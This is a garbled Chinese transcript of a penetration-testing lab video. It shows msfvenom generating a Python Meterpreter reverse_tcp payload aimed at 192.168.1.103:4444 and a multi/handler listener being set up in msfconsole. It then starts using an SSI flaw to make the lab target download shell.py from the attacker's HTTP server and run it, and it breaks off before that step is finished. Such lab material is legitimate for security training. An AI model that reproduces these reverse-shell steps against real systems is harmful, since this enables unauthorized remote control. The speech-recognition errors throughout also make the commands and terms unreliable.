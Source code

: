 咱们来生成笑。今天呢哎我们首先切换到桌面。好莱斯。今天我们不使用PHP哎的像，我们使用pathon的项来尝试。首先MSF。之后杠PIPthon。mattter printer之后是reverse。

TCP law host。也就是咱们靶厂的IP地址来，我们来查看一下靶厂的IP地址。192。168。1。103啊，把它 copypy出来。paste来之后lower port。等于4445。

设置444哎之后杠F。run之后重定向到哎，这个root a。啊，咱们重新输入MSFVENOF呃，咱们之后是杠P表示它对应的平台的小ton。Metter operator。为。Worse。TCP。

Law host。等于92。168。1。103lawport。表示它监听端口等于4444生成的哎是一个源代码run重定向的。root目录下的desktop。然后那咱们需要。2PY不撤。

咱们这时候哎通过这个MSFVENOM哎生成了一个基于paon的呃这样一个sell，并且它返回的哎这个地址是192。168。1。103，它监听的端口啊是444啊这样一个端口。

咱们在生成这样一个excel之后，哎，需要打开metpo，启动监听。首先输MSFcl来打开mattterport。因为mateport啊是一个比较大的安全框架。

里边集成了渗透测试所有哎的这样一个过程的工具。所以说打开速度是比较慢的，因为它需要加载很多的模块。打开之后哎，我们。来启动监庆。首先use export it。之后来是MULTI。head了回撤。

然后设置payload set payload。之后哎我们因为这里使用的是pathon matter printer，我们把这个复制过来。花呗哎之后我们。pas不撤。

设置完这些哎那个expo和payload之后，我们需要来设置对应的参数。首先使用show options查看一下我们需要设置哪些参数回撤。我们在这里啊可以看到需要设置啊咱们监听的啊这个主机以及对应端口。

这里是跟咱们生成这个。web小还是。一样的，需要设置对应的参数。law host我们设置。卡利的这个IP地址。Jong set。law host哎之后空格哎之后粘贴进来。回撤。咱们设置啊完成之后。

需要查看一下是否设置成功，依然使用受。Opts回撤。这时候哎咱们设置成功。设置完之后，使用装来开启监听回车。咱们下面哎就来靶场上，也就是通过SSI这个漏洞来下载咱们对应啊这个脚本，并且执行返弹效要。

这里哎咱们输一个一，然后哎这里咱们输入对应的CMD。首先哎咱们这里要使用下载的功能。通过什么下载呢？通过1个HTTP来这样一个写站点进行下载，192。168。1。103呃，之后是咱们shall点PY。

咱们会想到，咱们当前哎卡利linux并没有开启HTTP哎这样一个服务器，也就是阿帕奇服务器。那么咱们就需要哎开启对应的服务器，并且把sell移移送到哎咱们这个阿帕奇服务器的跟目录。

下面咱们在终端当中操作。

![](img/d2a9a5113c03d32a8b56714dcdd10a81_16.png)

打开一个新的终端。之后哎，咱们切换到桌面，哎，桌面上。有一个。sh要的PY咱们把当前的sha要PY。
